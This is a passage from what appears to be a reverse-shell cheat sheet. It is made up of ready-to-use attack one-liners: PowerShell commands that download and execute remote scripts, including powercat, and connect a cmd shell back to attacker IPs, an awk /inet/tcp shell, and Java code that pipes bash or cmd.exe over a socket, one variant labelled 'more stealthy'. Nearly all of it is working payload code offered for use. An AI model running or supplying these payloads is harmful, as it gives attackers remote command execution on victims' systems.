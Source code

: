 ```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

-  powercat
```powershell
powershell Set-ExecutionPolicy -ExecutionPolicy RemoteSigned;IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.50.161:8080/powercat.ps1'); powercat -c 192.168.50.161 -p 7777 -e cmd
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 10.1.1.1 -p 443 -e cmd
```

### Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Java

```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();

```

#### Java Alternative 1

```java
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

#### Java Alternative 2
**NOTE**: This is more stealthy

```java
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();
```
